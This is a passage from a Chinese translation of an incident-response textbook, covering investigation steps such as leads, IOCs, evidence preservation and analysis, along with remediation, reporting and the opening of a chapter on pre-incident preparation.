调查的目标是确定描述发生了什么、如何发生以及在某些情况下谁负责的事实。作为商业IR团队，“谁”元素可能是无法达到的，但是知道何时寻求外部帮助或执法机构的帮助很重要。如果不知道攻击者首次如何访问您的网络，或者攻击者做了什么，那么您就没有处于良好的治疗位置。简单地拔掉包含恶意软件的系统的插头可能会让人感到安心，但是如果不知道攻击者如何访问以及他们所做的事情，您就可以睡个好觉吗？因为我们重视睡眠，所以我们开发和完善了一个五步骤的流程，如图2-2所示，以促进有效的调查。在接下来的几节中，我们详细介绍了这五个步骤。

> 最好不要行动得太快
在调查过程中，您可能会发现一些您认为需要立即采取行动的发现。通常，调查小组会立即向受影响组织内部的适当个人报告任何此类关键性发现。该个人必须权衡在没有足够理解情况的情况下采取行动的风险与进行额外的事实发现活动的风险。我们的经验是，在大多数情况下，进行进一步的事实发现是很重要的，这样您就可以了解更多情况并做出适当的决定。这种方法当然具有风险，因为它可能为攻击者提供进一步造成伤害的机会。但是，我们发现，根据不完整或不准确的信息采取行动的风险要大得多。没有最后的答案，在每次事件中，您的组织必须自行决定什么是可以接受的。
> 


##### 初始线索

没有线索的调查就像是一场钓鱼探险。因此，收集初始线索是任何调查的关键步骤。我们注意到许多组织中的常见调查失误：仅关注查找恶意软件。攻击者的唯一目标是安装恶意软件是不可能的。攻击者可能有其他目标，例如窃取电子邮件或文件、捕获密码、破坏网络或更改数据。一旦攻击者进入您的网络并获得有效凭据，他们就不需要使用恶意软件来访问其他系统。仅关注恶意软件可能会导致您错过关键发现。

请记住，任何调查的重点都应该是线索。我们曾应对过许多事件，其他团队完成的调查仅发现了很少的结果。在许多情况下，之前调查的失败是由于团队没有专注于开发有效的线索。相反，他们专注于与解决案件无关的“闪亮物品”。有许多事件，我们通过跟进有效线索发现了重要的额外发现，例如大量数据丢失或对敏感计算机系统的访问。

经常被忽视的是评估新线索以确保它们是合理的过程。您花费在评估线索上的额外时间将有助于使调查保持集中。根据我们的经验，良好线索具有三个共同的特点：
• 相关的。线索与当前事件有关。这似乎很明显，但经常被忽视。组织陷入的一个常见陷阱是将任何看起来可疑的东西归类为当前事件的一部分。此外，事件促使许多组织以前所未有的方式审视其环境，揭示了许多实际上是正常的“可疑活动”。这很快就会使团队不堪重负，从而破坏调查。
• 详细的。线索具有潜在调查课程的具体信息。例如，外部方可能会向您提供线索，表明您的环境中的计算机与托管恶意软件的外部网站进行了通信。尽管他们通知您非常好，但这个线索不是很具体。在这种情况下，您需要获取更多详细信息。询问事件发生的日期和时间以及IP地址，考虑谁、什么、何时、何地、为什么和如何。如果没有这些详细信息，您可能会浪费时间。
• 可操作的。线索包含您可以使用的信息，而且您的组织拥有跟进线索所需的手段。考虑一条线索，表明大量数据被传输到与僵尸网络相关的外部网站。您具有确切的日期、时间和目标IP地址。但是，您的组织没有可用的网络流或防火墙日志数据，以识别是数据来源的内部资源。在这种情况下，该线索不是很具操作性，因为没有办法将活动追溯到网络上的特定计算机。

##### 威胁指标（IOC）的创建

IOC（发音为“eye-oh-cee”）的创建是以结构化方式记录事件特征和工件的过程。这包括来自主机和网络方面的所有内容，超出了恶意软件的范畴。考虑项目，例如工作目录名称、输出文件名称、登录事件、持久性机制、IP地址、域名，甚至是恶意软件网络协议签名等内容。 IOC的目标是帮助您有效地描述、传达和查找与事件相关的工件。因为IOC只是一个定义，所以它不提供查找匹配项的实际机制。您必须创建或购买可以利用IOC语言的技术。

在选择如何表示IOC时，一个重要的考虑因素是您在组织内使用该格式的能力。网络威胁指标最常以Snort规则的形式表示，有免费和商业级企业产品都可以使用它们。从主机角度来看，一些可用的IOC格式包括：

- Mandiant的OpenIOC ([www.openioc.org](http://www.openioc.org/))
- Mitre的CybOX ([cybox.mitre.org](http://cybox.mitre.org/))
- YARA([code.google.com/p/yara-project](http://code.google.com/p/yara-project))
对于这两种格式中的两种，即OpenIOC和YARA，都有可用于创建IOC的免费工具。Mandiant创建了一个名为IOC Editor的基于Windows的工具，它将基于OpenIOC标准创建和编辑IOC。对于YARA，有许多工具可用于创建和编辑规则，甚至可以根据恶意软件的一部分自动创建规则。我们在第5章中更详细地讨论了什么构成了一个好的IOC以及如何创建它。

> 在网络上获取它
IOC Editor www.mandiant.com/resources/download/ioc-editor
YARA工具 www.deependresearch.org/2013/02/yara-resources.html
> 

##### IOC部署

使用IOC记录指标很棒，但它们的真正威力在于使IR团队能够以自动化的方式查找恶意程序，无论是通过企业IR平台还是通过Visual Basic (VB)和Windows Management Instrumentation (WMI)脚本。调查的成功取决于您在全企业范围内搜索IOC并以自动化方式报告它们的能力-这就是我们所说的“IOC部署”。因此，您的组织必须具备实施IOC的某些能力，否则它们就没有多大用处。对于基于网络的IOC，方法很简单-大多数解决方案都支持Snort规则。但是，正如之前所讨论的那样，目前还没有被广泛接受的主机IOC标准。因此，有效地在调查过程中使用主机IOC可能会具有挑战性。现在，让我们来看看一些当前的选项。

> **行业和IOC格式**
在主机威胁指标方面，计算机安全行业存在一个重大缺陷：没有公认的标准。尽管Snort作为网络威胁指标的事实标准已经被创建和接受，但是没有免费的基于主机的解决方案包括指标语言和有效地在企业中使用它的工具。没有解决方案，事件响应者将继续面临寻找主机IOC的重大挑战。

在我们撰写本书时，三个主要的基于主机的IOC定义是Mandiant的OpenIOC、Mitre的CybOX和YARA。让我们快速看一下每个选项。YARA提供了一种语言和工具，相当成熟; 然而，YARA覆盖的工件范围主要仅侧重于恶意软件。Mandiant的OpenIOC标准更为全面，并且具有名为Redline的公开可用的IR收集工具，可与OpenIOCs一起使用。但是，OpenIOC尚未成熟或被广泛接受。Mitre的CybOX标准也很全面，但除了IOC格式转换脚本之外，没有其他可用的工具。对于这三个选项中的所有三个，都没有像Snort一样的企业级或成熟的免费解决方案。
> 

您不需要大量预算来使用IOC，尽管您有效地在企业范围内使用它们的能力可能需要大量资金。有免费和商业工具都可以使用YARA和OpenIOC标准来搜索IOC。在免费方面，YARA项目提供了搜索YARA规则的工具。此外，许多开源项目可以使用YARA规则，其中一些列在我们之前提供的YARA工具链接中。Mandiant提供了一款名为Redline的免费工具，您可以在系统上搜索OpenIOC。这些免费工具在小量系统上非常有效，但是不太容易扩展。为了有效地在企业中搜索IOC，您需要投资大规模的解决方案。例如，FireEye可以使用YARA规则，Mandiant的商业软件提供可以使用OpenIOC。但是请记住，支持使用IOC的软件和流程仍然不太成熟。安全行业的这一方面可能会在未来几年发生变化，请关注发展情况。

##### 确定感兴趣的系统

部署IOC后，您将开始获得我们所称的“命中”。当IOC工具找到给定规则或IOC的匹配项时，就会出现命中。在对命中采取行动之前，您应该查看匹配信息以确定命中是否有效。这通常是必需的，因为某些命中的置信度很低，因为它们非常通用，或者因为出现了意外的误报。有时我们会检索少量其他数据以帮助将命中放入上下文中。除非命中的置信度很高，否则此时仍然不知道该系统是否真的属于事件的一部分。我们采取了许多步骤来确定系统是否真正感兴趣。

当系统被确定时，您应该对新信息进行初步分类。这些步骤将有助于确保您花费时间在相关任务上，并保持调查的重点：

- 验证：检查匹配项的初始细节，并确定它们是否可靠。例如，如果IOC仅匹配文件名称，可能是误报吗？新详情是否与当前调查的已知时间范围一致？
• 分类：将确定的系统分配给一个或多个类别，以便保持调查的组织性。多年来，我们已经发现将系统标记为“受损”太模糊了，调查人员应尽可能避免使用这个术语。我们发现使用更清楚地指示发现类型和攻击者活动的类别更有帮助，例如“安装了后门”、“使用有效凭据访问”、“SQL注入”、“凭据收集”或“数据窃取”。
• 优先级：为确定的系统分配相对优先级，以进行进一步操作。许多组织内的常见做法是根据业务相关因素进行优先排序，例如主要用户或处理的信息类型。但是，这种方法缺少一个关键点，即它不考虑其他调查因素。例如，如果确定系统的初始细节与其他系统的发现一致，则进一步检查此系统可能不会提供任何新的调查线索，并且可能会被赋予较低的优先级。另一方面，如果详细信息表明有一些新的东西，例如不同的后门恶意软件，即使考虑其他因素也可能有益于为分析分配更高的优先级。

##### 保留证据

一旦系统被确认并具有活动的威胁指标，下一步是收集额外的数据进行分析。您的团队必须创建一个收集和保留证据的计划，无论能力是内部还是外部外包。保留证据的主要目标是使用最小化系统更改、最小化与系统交互的过程，并创建适当的文档。您可以从正在运行的系统中收集证据，也可以决定关闭系统以进行成像。
因为任何一个团队都有有限的资源，所以收集可能永远不会被检查的大量数据是没有意义的（除非有充分的理由）。因此，针对每个新确定的系统，您必须决定要收集什么类型的证据。始终考虑每个系统的情况，包括系统是否有任何不同之处或者是否进行实时响应数据的审查会带来新的发现。如果您认为存在某些独特的方面或有其他令人信服的理由，请保留您认为有必要推进调查的证据。典型的证据保留类别包括实时响应、内存收集和法证磁盘映像，如下所述：

- 实时响应
实时响应是我们在事件响应中执行的最常见的证据收集过程。实时响应是使用自动化工具收集有关正在运行的系统的标准数据集的过程。数据包括易失性和非易失性信息，这将迅速提供调查问题的答案。通常收集的信息包括诸如进程列表、活动网络连接、事件日志、文件系统中的对象列表和注册表内容等项目。我们还可能收集特定文件的内容，例如日志文件或可疑恶意软件。由于该过程是自动化的且数据大小不是太大，因此我们会在大多数感兴趣的系统上执行实时响应。实时响应分析通常能够进一步确认妥协，提供有关攻击者在系统上所做的事情的额外详细信息，并揭示进一步的调查线索。
- 内存收集
内存收集在您怀疑攻击者正在使用隐藏其活动的机制（例如rootkit）且无法获得磁盘映像时最有用。内存还可用于仅驻留在内存中的恶意活动或在磁盘上留下非常少的物件的情况。在我们响应的大多数系统中，内存不是非常重要，因为分析内存对调查的收益有限，因为它提供的数据不足以回答高级别问题。虽然您可能能够确定恶意软件正在系统上运行，但您可能无法解释它是如何到达那里的，或者攻击者在该系统上一直在做什么。
- 取证磁盘映像
取证磁盘映像是系统硬盘驱动器的完全副本。在事件响应中，我们通常以“在线”模式收集映像，其中系统未脱机，我们在外部媒体上创建映像。由于磁盘映像很大且分析时间很长，因此我们通常仅在相信磁盘映像对调查有益时才收集它们。在攻击者长时间执行多项操作、其他证据无法帮助回答问题或希望恢复我们认为只能从磁盘映像中获得的其他信息的情况下，取证磁盘映像很有用。在不涉及疑似入侵的事件中，完全磁盘映像收集是常规操作。

##### 数据分析

数据分析是对前一步骤中保留的证据进行检查以回答调查问题的过程。分析结果通常在正式报告中记录。在事件响应生命周期中，我们通常会花费大部分时间在该步骤上。您的组织必须决定自己进行哪些分析，以及是否外包任何部分。有三个主要的数据分析领域：
• 恶意软件分析
在大多数调查中，我们会遇到疑似恶意软件的文件。我们有一支专门的恶意软件分析团队来检查这些文件。他们制作包括威胁指标和功能详细描述的报告。虽然拥有专门的恶意软件团队不适用于大多数预算，但组织应考虑投资于基本的疑似恶意软件分类能力。
• 实时响应分析
检查收集的实时响应数据是调查中更关键的分析步骤之一。如果您正在查看实时响应数据，则通常是因为系统上存在可疑活动的迹象，但细节有限。在分析过程中，您将尝试找到更多的线索并解释发生了什么。如果在此阶段错过了细节，则结果可能是您忽略了攻击者活动的一部分或完全忽略了系统。实时响应分析的结果应帮助您了解未经授权访问系统的影响，并直接影响您的下一步操作。每个执行IT安全功能的组织都应具有基本的实时响应分析能力。
• 取证检查
在事件响应期间对磁盘映像执行的取证检查是一项非常专注和时间敏感的任务。当子弹飞过时，您没有时间逐步执行全面的检查。我们通常记录我们想要回答的一些现实问题，决定一个可能会揭示回答它们的信息的方法，然后执行。如果我们没有得到答案，我们可能会使用不同的方法，但这取决于时间和我们期望从中获得什么。这并不是说我们不花费大量时间进行检查——我们只是非常清楚地知道如何花费我们的时间。如果您正在响应的事件更为传统，例如不涉及入侵的内部调查，则您将花费大部分时间在此类分析上。对于传统媒体取证检查，大多数IR人员和公司都没有经验。


在执行入侵分析时，请记住您可能无法“找到所有证据”。我们与一些组织合作，这些组织遭受我们有时称之为“CSI效应”的影响，员工们认为他们可以使用“酷炫昂贵的工具”找到并解释所有内容。我们共同拥有几十年的经验，进行了数百次事件响应调查，在所有这些调查中，我们尚未遇到这样的神奇工具。当然，有一些工具可以极大地有益于您的团队。然而，使用的一些最好的工具是您已经拥有的工具——您正在使用它们阅读和理解此句。

#### 纠正

纠正计划将因事件的情况和潜在影响而大不相同。计划应考虑情况的各个方面，包括法律，业务，政治和技术。该计划还应包括一个通信协议，定义组织中谁将在何时说什么。最后，纠正的时间非常重要。过早进行纠正，您可能会未能考虑到新的或尚未发现的信息。纠正太晚，则可能造成相当大的损害，或者攻击者可能会改变策略。我们发现，开始纠正的最佳时间是当您已配置的IOCs所具备的检测方法进入稳定状态时。也就是说，您已经配置的工具已不再向您警报新的唯一事件。

我们建议在事件响应过程的早期开始纠正计划，以避免使您的团队超负荷并犯错。有些事件的纠正活动所需的工作量甚至比实际调查还要多。任何组织都有许多不同方面的运作，协调消除威胁是一项不容易的任务。我们采取的方法是定义适当的活动，以执行以下三个方面之一：
• 姿态
• 战术（短期）
• 战略（长期）

姿态是采取措施以确保纠正成功的过程。这个步骤包括建立协议、交换联系信息、指定职责、提高可见度、安排资源和协调时间表等活动。战术包括采取被认为适当的行动来处理当前的事件。这些活动可能包括重建被入侵系统、更改密码、屏蔽IP地址、通知客户遭到侵犯、发布内部或公开声明以及更改业务流程。最后，在调查期间，组织通常会注意到他们可以改进的领域。但是，在事件期间发现的每个安全问题都不应尝试修复；制定一个待办事项列表，并在事件结束后处理它们。纠正的战略部分解决这些领域，这些领域通常是需要组织内重大变革的长期改进。尽管战略纠正不是标准IR生命周期的一部分，但我们在这里提到它，以便您了解这个类别，并用它来帮助保持注意力集中在重要事项上。

#### 重要调查信息的跟踪

我们在本章的早期提到，许多有效的事件响应挑战是非技术的。保持组织有序是其中之一，也是一个特别大的挑战。我们不喜欢使用“情境意识”这个术语，但这就是我们在这里谈论的内容。您的调查必须有一种机制，可以轻松跟踪关键信息，并与辅助团队和组织领导共享。您还应该有一种方法来提及特定的事件，而不是“上周二开始的那件事”。建立事件编号或命名系统，并使用它来引用和记录与特定事件相关的任何信息和证据。
什么是“重要调查信息”？我们发现有几个数据点对于任何调查都至关重要。这些项目必须尽可能接近实时地跟踪，因为团队成员将使用它们作为当前调查状态的“基本真相”。当来自管理层的查询到来时，这些数据也将是团队成员首先引用的内容。

- 证据清单
此清单应包括收集的时间和日期以及数据来源，无论是实际人员还是服务器。确保为每个项目维护一条连锁记录。将连锁记录与项目一起保管，其存在于此列表中是您的指标，表明已正确处理项目。
• 受影响系统列表
跟踪系统的识别方式和时间。请注意，“受影响”包括被怀疑存在安全威胁的系统以及仅被可疑帐户访问的系统。
• 任何有趣的文件列表
此列表通常仅包含恶意软件，但也可能包含数据文件或捕获的命令输出。跟踪找到文件的系统以及文件系统元数据。
• 访问和窃取数据列表
包括文件名，内容和疑似曝光的日期。
• 重要攻击者活动列表
在进行实时响应或取证数据的检查时，您可能会发现重要的活动，例如登录和恶意软件执行。包括受影响的系统以及事件的日期和时间。
• 基于网络的IOCs列表
跟踪相关的IP地址和域名。
• 基于主机的IOCs列表
跟踪任何必要的特征以形成明确的指标。
• 受损帐户列表
请确保跟踪帐户访问的范围，本地或域范围。
• 团队正在进行和请求的任务列表
在我们的调查中，通常在任何时候都有数十项待处理的任务。从辅助团队请求的额外信息到取证检查，如果您没有组织，很容易让某些事情落入空子中。
在我们编写本书时，我们处于从我们经过验证的Microsoft Excel电子表格15个选项卡的过渡阶段，转向简化的多用户Web界面。我们决定构建自己的系统，因为我们找不到符合我们需求的现有案例和事件管理解决方案。这是一个漫长的过程，非常具有挑战性，因为Excel提供了难以在Web界面中复制的灵活性和易用性。无论您在组织中决定使用什么，它都需要尽可能地简化到您的流程中。

> 在网上获取它
事件管理系统RTIR
www.bestpractical.com/rtir/

> 目击者报告
几年前，我们在一家拥有大约2,000个主机的小型防御承包商进行了调查。与我们进行的一些较大的调查相比，这些调查涉及超过100,000个主机的环境，这次调查似乎会很容易。我们开始问自己是否有必要完成所有正常文档的编写，特别是因为该组织非常注重成本。然而，事情一发不可收拾，接下来我们发现了近200个经过验证的恶意软件系统，还有更多使用有效凭据进行访问的系统！其中一些与我们被聘用调查的事件有关，一些则不是。如果没有我们通常的文档，调查将会失去焦点，并浪费比创建文档所花费的时间更多的时间。在那次事件中强化的教训是，在事件期间始终记录重要信息，无论大小。

#### 报告
作为顾问，我们的报告是客户的基本交付成果。创建良好的报告需要时间——您可能认为最好花在其他任务上的时间。然而，没有报告，很容易失去对您所做的事情的追踪。我们已经了解到，即使在单个调查中，也可能存在许多发现，如果没有正式的定期报告，沟通整个调查的总体情况将很困难。在许多调查中，高级别的发现都是基于众多技术事实的，如果没有适当的文档，可能难以沟通。

几乎每个人都经历过文档的有趣后果。这类似于当你考虑是否在待办事项清单上写下一个任务时会发生什么。如果你不把任务写下来，你遗忘它的可能性就更高。一旦你进行了写作的物理过程，你可能甚至不必回头看看清单——你就记住了。我们发现，无论是非正式的笔记还是正式的报告，写作都会帮助我们记住更多的信息，从而使我们成为更好的调查人员。
我们在第17章中详细介绍了报告写作。

### 如何？

在本章中，我们提供了一些信息，希望管理人员能够在建立或更新其事件响应能力时发现有用。以下清单包含了我们认为您在此过程中应首先考虑的任务：
• 在组织中定义“计算机安全事件”的含义。
• 确定关键数据，包括存储位置和负责人。
• 为识别不同事件创建事件跟踪进程和系统。
• 理解组织和您处理的数据的法律和合规要求。
• 定义您将在内部执行的功能以及将外包的功能。
• 找到并培训IR人才。
• 为事件响应过程创建正式文档模板。
• 为环境中常见操作系统的证据保全创建程序。
• 实施基于网络和基于主机的IOC创建和搜索解决方案。
• 建立报告模板和指南。
• 创建跟踪重要调查信息的机制或过程。

### 问题

1. 列出可能参与事件响应的组织内的群体。解释为什么在事件发生之前与这些群体交流很重要。
2. 您的组织接到一家联邦执法机构的电话，告知您他们有证据表明涉及您的环境的数据泄露事件已发生。该机构提供了许多具体细节，包括敏感数据转移到您的网络之外的日期和时间，目标的IP地址以及内容的性质。这些信息是否符合良好线索的特征？为什么或为什么不？您还可以要求什么？如何将此信息转化为可操作的线索？
3. 解释执行实时响应证据收集与取证磁盘映像的优缺点。为什么实时响应是IR期间最常见的证据保全方法？

## 第三章 事件前的准备

除非您的组织投入资源为此类事件做准备，否则您成功进行调查的机会很低。本章节有关事件前准备的内容旨在帮助创建一个基础设施，使组织能够系统地进行调查和纠正。本章将有助于确保您的团队准备就绪，能够调查、收集、分析和报告信息，以便回答事件期间常见的问题：
• 到底发生了什么？损失是什么，攻击者是如何入侵的？
• 事件是否仍在进行中？
• 被窃取或访问的信息是什么？
• 事件影响了哪些资源？
• 通知和披露责任是什么？
• 应采取哪些步骤来纠正情况？
• 可以采取什么措施来保护企业免受类似事件的影响？
调查本身是具有挑战性的。除非您做好准备，从信息系统中提取必要的数据并进行通信管理同样具有挑战性。本章将帮助您做好准备，从而显着促进成功的调查。我们涵盖了三个高层面：
• 准备组织 这个方面包括识别风险、成功IR的政策、与外包IT的合作、全球基础设施问题以及用户教育等话题。
• 准备IR团队 这个方面包括通信程序和资源，如硬件、软件、培训和文档。
• 准备基础设施 这个方面包括资产管理、工具、文档、调查工具、分割和网络服务。

### 准备组织以进行事件响应

计算机安全是一个技术性的课题，由于它被认为很容易，因此许多组织倾向于将重点放在技术问题上：购买设备、安装代理和在云中分析“大数据”。相比较而言，资金比招聘熟练的人员或致力于自我提高更容易获得。然而，在大多数调查中，我们经常面临一些非技术性质的重大组织挑战。在本节中，我们涵盖了一些最常见的挑战领域：
• 识别风险
• 推动成功IR的政策
• 与外包IT合作
• 全球基础设施问题的思考
• 教育用户有关基于主机的安全性

#### 识别风险

预警事件准备的最初步骤涉及获得公司风险的全局视图。您的关键资产是什么？它们的暴露情况如何？威胁是什么？您的组织必须遵守哪些法规要求？（这些通常有一些相关的风险。）通过识别风险，您可以确保您花费资源准备最有可能影响您业务的事件。关键资产是组织中持续成功的关键领域。以下是一些关键资产的示例：
• 公司声誉 消费者是否选择您的产品和服务，部分是因为他们对您组织保护数据的能力有信心？
• 机密商业信息 您是否有关键的营销计划或秘密产品配方？您存储专利、源代码或其他知识产权的位置在哪里？
• 个人可识别信息 您的组织存储或处理PII数据吗？
• 付款账户数据 您的组织存储或处理PCI数据吗？
关键资产是对您的组织产生最大责任或潜在损失的资产。责任通过暴露发生。考虑一下在您的人员、流程或技术中的哪些暴露会导致或促成损失。暴露的例子包括未打补丁的Web服务器、面向互联网的系统、不满意的员工和未受过培训的员工。

另一个有影响力的因素是谁能够利用这些暴露：任何与互联网连接的人？任何能够进入公司建筑的人？只有在安全区域内的个人？将这些因素结合起来以确定风险的优先级。例如，最关键的资产，只有可信个人在受控的物理环境中才能接触到的暴露，可能比暴露在互联网上可接触的资产产生更少的风险。
识别风险至关重要，因为它使您可以以最有效的方式使用资源。您的环境中并不应该对每个资源都采取相同的安全保护级别。引入最大风险的资产会获得最多的资源。

#### 促进成功IR的政策

在IR期间，您的团队所做的每一个调查步骤都受到应该在第一次通知之前就准备好的政策的影响。在大多数情况下，信息安全政策是由组织的法律顾问与CISO办公室和合规官员合作编写和执行的。典型的政策包括：
• 可接受使用政策管理每个用户的预期行为。
• 安全策略为组织内敏感数据和资源的保护建立期望。该政策的子部分可以涉及物理、电子和数据安全问题。
• 远程访问政策确定谁可以连接到组织的资源以及对连接施加哪些控制。
• 互联网使用政策为通用互联网资源的适当使用建立了期望，包括隐私期望和由组织或代表组织进行监控的通知。
IR团队最应关注的政策将涉及公司拥有资源的搜查和扣押以及网络流量拦截的期望。如果这两个（诚然是一般性的）问题得到解决，团队就应该能够执行大多数调查行动。如本章的其他地方所述，请注意会影响您行动的当地隐私法律。在一个办公室进行的行动可能会违反另一个联邦法律。

> 上网搜索获取
SANS sans.org/security-resources/policies
ISO 27002:2005 www.iso.org
> 

#### 与外包IT合作

在许多大型组织中，甚至包括一些中小型组织，我们发现至少有一些IT功能是外包的。如果调查需要由外包提供商执行任务，则可能难以完成工作。通常有请求工作的流程，可能需要项目计划、批准或其他繁琐的程序。对于一些小的配置更改，如主机防火墙规则，可能会有额外的费用，有时是每个系统收费。在某些情况下，可能没有工具来完成所请求的任务，因为它超出了合同的范围。当组织请求外包服务进行分析的日志文件时，我们遇到过这种情况。
这些挑战可能会妨碍调查的有效进行。每个组织都应该与他们的供应商合作，确保包括响应关键请求的服务级别协议（SLA）和执行超出合同范围的工作的选项的安排。如果没有适当的协议，您可能会发现自己在紧急情况下无助。

#### 全球基础设施问题的思考

近年来，我们与一些大型跨国组织进行了许多入侵调查。在这些调查中，我们遇到了一些新的有趣的挑战，这使我们对如何正确调查跨越国界的事件有了一些见解。虽然我们没有所有的答案，但我们可以让您了解一些可能面临的挑战，以便您有时间做好准备。
隐私和劳动法规
作为调查人员，我们通常将组织的网络视为等待我们查找的大量证据资源。如果您决定搜索违规指标并且您使用的方法违反了当地的隐私法律或联邦劳动法规，则很容易陷入麻烦。如果您计划调查涉及横跨多个国家的网络的事件，则需要在开始之前做一些功课。您应该与每个国家的组织法律顾问联系，讨论情况并确定您可以采取哪些措施。
团队协调
跨越全球的事件的另一个重要挑战是协调。因为人员和技术资源将分散在许多时区，所以保持组织需要仔细的计划和不断的努力来确保所有人都保持同步。因为有些人员可能在您醒着的时候睡觉，所以完成工作可能需要更长的时间。跟踪任务和执行交接将是关键，以确保有可接受的进展。由于参与者处于不同的时区，安排会议可能需要数天时间。

数据可访问性

在调查过程中，需要收集大量数据进行分析。通常，这些数据以单个大数据集的形式存在，例如硬盘镜像。当核心团队负责执行大部分分析任务时，您必须找到一种有效的方法将这些数据传输给具有取证分析经验的团队成员。虽然您应该记住源和目的国家的任何海关文件或限制，但最大的挑战将是获取相关数据并将其传递给正确人员的延迟。如果有任何问题需要传输数据，请立即开始该过程。由于沟通不畅或犹豫不决而失去了多个工作日。

#### 教育用户有关基于主机的安全性

用户在整体安全中发挥着关键作用。用户采取的行动经常会规避您制定的最佳安全计划。因此，用户教育应成为事前准备的一部分。
用户应该知道他们在系统上应该和不应该采取哪些类型的行动，从计算机安全和事件响应的角度考虑。用户应该意识到攻击者常用的方式，以及他们如何利用这些方式来破坏网络。用户应该了解对疑似事件的适当响应。通常情况下，您希望用户立即通知指定联系人。总的来说，用户应该被指示不要进行任何调查行动，因为这些行动通常会破坏证据并阻碍后续响应。
您应该解决的一个具体问题是用户安装的服务器软件的固有危险性。用户可能未经授权安装自己的Web或FTP服务器，从而危及组织的整体安全。在本章后面的部分中，我们提到了删除管理特权，这是一种配置更改，有助于减轻这种风险。但是，用户有时会找到绕过安全措施的方法，应让他们意识到安装未经授权软件的危险性。

### 准备IR团队

如前一章所介绍的，核心IR团队由几个学科组成：IT，调查人员，取证检查员甚至外部顾问。每个人都可能带着不同的技能和期望加入团队。您将希望确保您的团队由勤奋的人员组成，他们注重细节，保持控制，不要匆忙重要事情，并记录他们正在做的事情。团队发展的基础将在本节中建立。我们将讨论定义任务、沟通、可交付成果以及适当装备团队所需的资源。
#### 定义任务
定义IR团队的任务将有助于保持团队的专注性，并为您的组织设置期望。团队任务的所有元素都必须得到高层管理人员的完全认可和支持；否则，IR团队将无法在组织内产生影响。团队的任务可能包括以下所有或部分内容：
• 使用有组织的正式调查流程响应所有安全事件或疑似事件。
• 进行完整的公正调查。
• 快速确认或消除入侵或安全事件是否实际发生。
• 评估事件的损害和范围。
• 控制和封锁事件。
• 收集和记录与事件相关的所有证据。
• 在需要时选择其他支持。
• 保护法律和/或企业政策确立的隐私权。
• 为适当的执法和法律机构提供联络人。
• 维护事件的适当机密性，以保护组织免受不必要的曝光。
• 提供专家证言。
• 为管理层提供完全支持事实的建议。

#### 通信程序

在事件发生期间，你将同时拥有几个团队：你的核心调查团队、辅助团队、法律团队和系统管理员，他们不仅会回应核心团队的任务，而且常常会自行进行相关操作。良好的沟通至关重要，在事件开始之前定义好这一点是必不可少的。本节讨论战术和即席通信。

> 注意：
与组织的律师讨论通信和文档的问题。他们可能希望您在某些通信中包括他们的办公室，以确保信息不会被发现。这个决定在很大程度上取决于您正在执行的IR工作的性质，以及组织是否受到合规性控制。在本节中，我们将假设您已经就这个问题寻求了适当的指导，并标记了通信。


##### 内部通信

在最近的大量调查中，攻击者直接进入了电子邮件服务器。在一些服务器上，我们发现攻击者检索了C级员工和高级IT管理员的电子邮件信箱。不久之后，攻击者返回并搜索整个邮件服务器，寻找与调查相关的字符串。不幸的是，攻击者看着你看着他们的威胁并非理论上的。为准备IR时，请记住以下通信安全（ComSec）问题：
• 加密电子邮件。在事件发生之前，为核心和辅助IR团队成员获取S/MIME证书。向组织的IT部门咨询，因为他们可能会免费为员工颁发证书。也可以使用其他替代方案，如PGP，但与常见邮件客户端的集成传统上很差。
• 适当标记所有文档和通信。诸如“特权和机密”、“律师工作成果”和“按照顾问的指示准备”之类的短语可能是明智的，甚至是必需的。您应该寻求法律顾问，以确定适当的标签（如果有）。

- 监视会议参与情况。确保您的电话会议系统允许您监视谁已经打电话或者谁正在观看屏幕广播。关注参与者列表，并断开未经验证的参与者。
• 使用案例编号或项目名称引用调查。使用项目名称有助于避免细节泄露在走廊对话、会议邀请和对外方面的发票中。这与攻击者的可能拦截不太相关，而是为了最小化了解IR细节的人员数量。在外部上，将其视为任何其他项目。知道潜在安全漏洞的人越少，就越好。

> 注意:
请记住自动化流程发送到您的电子邮件服务器的信息类型。如果您的事件管理系统、IDS或仅仅是您桌面电话的语音邮件系统向您发送可能敏感的信息，请考虑将这些消息的内容限制为简单的通知。虽然有点不方便，但它可能会防止调查数据被泄漏。
> 

> 在网上找到它
免费S/MIME证书的来源
www.instantssl.com/ssl-certificate-products/free-email-certificate.html www.startssl.com
商业S/MIME证书的来源 www.symantec.com/verisign/digital-id www.globalsign.com/authentication-secure-email
> 

**与外部方的沟通**
如果一个组织很幸运，入侵的影响不需要通知或与外部实体协商。随着治理和立法的不断增加，更不用说合同中的事件披露语言，您的组织很可能需要确定如何与第三方沟通。为潜在披露做计划应涉及法律顾问、合规官员以及高管人员。

我们无法提供关于此话题的大量指导，除了要好好管理它。使用批准的渠道，如公共关系（PR）或法律办公室。一旦披露发生，您可能会失去对调查的控制。其他实体可能使用合同要求行动或调查步骤，这些步骤旨在保护他们的利益而不是您组织的利益。在确定任何通知的内容和时间时要考虑的一些问题是
• 什么样的事件满足报告门槛？在检测时立即？也许在事件被确认后？
• 如何向第三方传递通知？有什么合同语言来保护机密性吗？
• 如果事件需要公开披露，谁负责沟通的内容和时间？该如何进行披露？
• 披露后会对您的组织施加什么样的惩罚或罚款？考虑通知的时间是否影响此因素
• 披露后预期的调查限制有哪些？第三方是否需要参与调查？
• 披露如何影响纠正措施？

#### 可交付成果

因为我们为咨询公司工作，可交付成果是我们向客户提供的重要组成部分。我们认为，任何团队都应该以服务交付的方式来看待他们所做的事情，并定义他们将产生的标准项。IR团队最重要的可交付成果是调查报告。报告的范围可能从简单的一页状态更新到每个30页的详细取证检查报告。您的IR团队应明确定义其主要可交付成果，包括适当的目标完成时间框架或重复间隔。此外，您还应为每个可交付成果创建模板和说明，以确保一致性。以下是IR团队可交付成果的样本清单：

| Name

 | Purpose

 | Delivery Target

 |
| --- | --- | --- |
| Case Status Report | Update stakeholders on progress of an individual
case. | Recurring: Daily or as required |
| Live Response Report | Document findings from initial live response triage of a single system. | Draft: Within one business day
Final: Within two business days |
| Forensic Examination Report | analysis performed on an item of evidence. | Draft: Within four business days
Final: Within six business days |
| Malware Analysis Report | Document the findings from analysis of suspected malicious software. | Draft: Within three business days
Final: Within five business days |
| Intrusion Investigation Report | Consolidate all reports and findings related to a single incident and create a high- level executive summary. | Draft: Within five business days of completion of the investigation Final: Within eight business days of completion of the investigation |

| 名称 | 目的 | 交付目标 |
| --- | --- | --- |
| 案例状态报告 | 更新各方对个案进展的了解。 | 定期：每天或根据需要 |
| 活动响应报告 | 记录单个系统的初始活动响应分类的发现。 | 草稿：一工作日内
最终：两个工作日内 |
